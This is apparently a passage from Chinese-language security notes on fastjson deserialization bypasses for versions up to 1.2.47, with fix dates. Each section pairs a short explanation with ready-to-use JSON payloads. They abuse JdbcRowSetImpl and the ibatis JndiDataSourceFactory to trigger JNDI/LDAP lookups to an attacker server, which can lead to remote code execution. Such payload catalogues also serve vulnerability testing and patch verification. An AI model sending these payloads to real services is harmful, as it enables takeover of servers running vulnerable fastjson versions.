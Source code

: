 官方于 2017/12/16 发布 1.2.43 版本修复该绕过方式

---

## fastjson<=1.2.43

**描述**

fastjson 在 1.2.43 中 `checkAutoType()` 函数增加判断开头为 LL 直接报错。 绕过方法: 根据 fastjson 判断函数，`[` 开头则提取类名，且后面字符字符为 `[`、`{` 等，即可正常调用。

autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false）

利用条件: 1.2.38<=fastjson<=1.2.43, 且开启 autoType

```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true}

{"v43":{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://0.0.0.0","autoCommit":true]}}}
```

官方于 2017/12/21 发布 1.2.44 版本修复该绕过方式

---

## fastjson<=1.2.45

**描述**

前提条件：需要目标服务端存在 mybatis 的 jar 包，且版本需为 3.x.x 系列 <3.5.0 的版本。 使用黑名单绕过，org.apache.ibatis.datasource 在1.2.46版本被加入了黑名单 由于在项目中使用的频率也较高，所以影响范围较大。

利用条件: fastjson<=1.2.45, 受限依赖于 ibatis, 但无需开启 autoType

```json
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}}

{"v45":{"@type":"java.lang.Class","val":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory"},"xxx":{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://0.0.0.0"}}}
```

官方于 2018/02/05 发布 1.2.46 版本修复该绕过方式

---

## fastjson<=1.2.47 (CNVD-2019-22238)

**描述**

autoType 为关闭状态也可使用。 loadClass 中默认 cache 设置为 true，利用分为2步执行，首先使用 java.lang.Class 把获取到的类缓存到 mapping 中，然后直接从缓存中获取到了 com.sun.rowset.JdbcRowSetImpl 这个类，绕过了黑名单机制。

无需开启 autoType, 在 fastjson<=1.2.47 版本时, 该 poc 通杀
